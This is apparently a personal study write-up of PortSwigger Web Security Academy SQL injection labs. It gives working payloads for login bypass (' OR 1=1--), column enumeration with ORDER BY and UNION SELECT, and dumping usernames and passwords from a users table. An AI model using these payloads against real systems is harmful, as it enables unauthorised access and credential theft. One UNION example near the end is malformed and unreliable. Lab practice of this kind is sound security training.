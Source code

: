 [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Apprentice

## Showing all items, even unreleased ones

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

Website takes a category as input, and shows only the released products in that category.
Using SQL comments and a little logic, we can make it skip `AND released = 1` entirely:

The SQL query sent from the server should look like this:
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1;
```

We can send this input to get the desired query that shows all products, even the unreleased ones:

Category input field: `Gifts' OR 1=1--`

## Log in as "administrator" without a password

Use the same logic to comment out the password parameter in the SQL query.

We can imagine that the SQL query sent from the server is something like this:
```sql
SELECT * FROM users WHERE username = 'someusername' AND password = 'somepassword';
```

The desired query:
```sql
SELECT * FROM users WHERE username = 'administrator' AND password = '' OR 1=1--';
```

To end up with the desired SQL query, this is what we need to type in the input fields:
Username: `administrator`
Password: `' OR 1=1--`

# Practitioner

## Figure out how many columns are in a table

Source: https://portswigger.net/web-security/sql-injection/union-attacks

I imagine the SQL query looks something like this by default:
```sql
SELECT * FROM products WHERE category = 'Accessories';
```

To figure out how many columns are in a table we can use either of these techniques.

**The first one uses in `ORDER BY` in an unintended way.**

The intended use of `ORDER BY` is to sort the returned data from an SQL query such as `SELECT * FROM products` ascendingly (ASC) or descendingly (DESC) by column N.

By running this SQL query:
```sql
SELECT * FROM products ORDER BY 2 ASC;
```
... we sort the products returned to us by column index 2 (not 3) in an ascending order.

You can also sort using a column name, such as:
```sql
SELECT * FROM products ORDER BY price DESC;
```

... however, in this case only the index is useful.

If the column index we are trying to order by is non existent, e.g. when a table has 3 columns and we try to order it based on column 5 which doesn't exist, we will be greeted with an error message of some kind.
We can use this to our advantage in this task. Let's check if we can order by the column indices 1-10, at which index does it fail?

There is no "input field" for this task, we must use something like Burpsuite or cURL to send a forged GET request to the server.

```
GET /filter?category=Accessories'+ORDER+BY+1--
```
> Works

```
GET /filter?category=Accessories'+ORDER+BY+2--
```
> Works

```
GET /filter?category=Accessories'+ORDER+BY+3--
```
> Works

```
GET /filter?category=Accessories'+ORDER+BY+4--
```
> Fails

Since it failed at sorting by the 4th column we can determine that there are only 3 columns in this table.

The same task may be done using `UNION SELECT`, like this:
```
GET /filter?category=Accessories'+UNION+SELECT+NULL--
```
> Works

```
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL--
```
> Works

```
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL--
```
> Works

```
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL,NULL--
```
> Fails


## UNION attack, finding a column containing text

> Make the database retreive the string: 'hEAgeA'

First we use the technique from the previous task to determine how many columns there are in the table.

```yaml
# Works
GET /filter?category=Accessories'+ORDER+BY+3--

# Fails
GET /filter?category=Accessories'+ORDER+BY+4--
```

This means that there are still only 3 columns in the table.

Since we know what we are looking for, we can search for it using a `UNION SELECT`
Like this:

```yaml
# Fails
GET /filter?category=Accessories'+UNION+SELECT+'hEAgeA',NULL,NULL--

# Works - the task is solved
GET /filter?category=Accessories'+UNION+SELECT+NULL,'hEAgeA',NULL--

# Fails
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,'hEAgeA'--
```

With this we have figured out that only column no. 2 contains string values.
Looking at what it returns I suspect the columns to be: `ID`, `ProductName`, `Price`, although this is not directly relevant.

Since we tested each column for compatibility with strings using `hEAgeA`, the task was solved after the second attempt. 

## UNION attack, retrieving data from other tables

We are given information that another table `users` exist with the columns `username` and `password`.

To solve the challenge we need to fetch information (the password) about the `administrator` user.

We know that the number of columns in the `products` table is 3. `UNION SELECT`'s always need to return the same amount of columns as there are in the initial table. 

Using a simple `UNION SELECT username,password,NULL FROM users`, we may be able to retrieve information about all the users.

```yaml
/filter?category=Accessories'+UNION+SELECT+username,password,NULL+FROM+users--
```

This ended up not working. We should start from scratch by checking how many columns this table of products have:

```yaml
# Works
GET /filter?category=Accessories'+ORDER+BY+2--

# Fails
GET /filter?category=Accessories'+ORDER+BY+3--
```

There are only 2 columns in this table. Let's try fetching the credentials again, but this time only specifying 2 columns.

```yaml
/filter?category=Accessories'+UNION+SELECT+username,password+FROM+users--
```

This works. We can see the users' passwords and usernames. To solve the challenge we need to log in as the administrator.

## UNION attack, retrieving multiple values in a single column

There are 2 columns (found using `ORDER BY`).

```
(UNION SELECT username FROM user) UNION (UNION SELECT password FROM user)
```

## Querying database type and version (on Oracle)

Check cheatsheet
